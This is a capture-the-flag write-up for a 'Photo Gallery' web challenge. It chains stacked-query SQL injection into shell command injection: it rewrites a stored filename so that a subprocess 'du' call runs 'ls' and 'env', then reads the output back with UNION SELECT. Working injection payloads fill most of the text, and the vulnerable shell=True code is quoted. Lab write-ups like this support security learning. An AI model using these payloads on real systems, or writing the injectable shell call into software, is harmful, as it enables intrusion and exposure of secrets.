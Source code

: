# Photo Gallery - FLAG2

## 0x00 Space Used

![](../flag1/imgs/index.jpg)

We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

## 0x01 Stacked Queries

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Try modify image title

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```

Successfully updated file title 3.

![](./imgs/filename.jpg)

## 0x02 Remote Code Execution

Now we can update **filename** to perform RCE.

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go check the execution result

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

## 0x03 FLAG

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go get the flags

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.

![](./imgs/flag.jpg)

[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
